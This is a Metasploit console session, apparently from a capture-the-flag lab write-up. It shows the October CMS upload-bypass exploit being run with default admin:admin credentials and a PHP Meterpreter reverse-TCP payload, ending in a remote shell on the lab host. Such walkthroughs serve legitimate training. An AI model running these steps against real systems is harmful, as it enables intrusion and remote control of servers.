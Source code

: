 ```
   5  exploit/multi/http/october_upload_bypass_exec     2017-04-25       excellent  Yes    October CMS Upload Protection Bypass Code Execution
   6  exploit/multi/misc/legend_bot_exec                2015-04-27       excellent  Yes    Legend Perl IRC Bot Remote Code Execution
   7  exploit/windows/browser/java_docbase_bof          2010-10-12       great      No     Sun Java Runtime New Plugin docbase Buffer Overflow
   8  exploit/windows/browser/ms13_080_cdisplaypointer  2013-10-08       normal     No     MS13-080 Microsoft Internet Explorer CDisplayPointer Use-After-Free


Interact with a module by name or index. For example info 8, use 8 or use exploit/windows/browser/ms13_080_cdisplaypointer

msf6 > use 5
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/october_upload_bypass_exec) > set password admin
password => admin
msf6 exploit(multi/http/october_upload_bypass_exec) > set lhost tun0
lhost => 10.10.14.28
msf6 exploit(multi/http/october_upload_bypass_exec) > options

Module options (exploit/multi/http/october_upload_bypass_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.16      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base October CMS directory path
   USERNAME   admin            yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   October CMS v1.0.412


msf6 exploit(multi/http/october_upload_bypass_exec) > run

[*] Started reverse TCP handler on 10.10.14.28:4444 
[+] Authentication successful: admin:admin
[*] Sending stage (39282 bytes) to 10.10.10.16
[*] Meterpreter session 1 opened (10.10.14.28:4444 -> 10.10.10.16:44234) at 2021-03-15 23:39:10 +0100
[+] Deleted ErsMolez.php5

meterpreter > ls -l
Listing: /var/www/html/cms/storage/app/media
```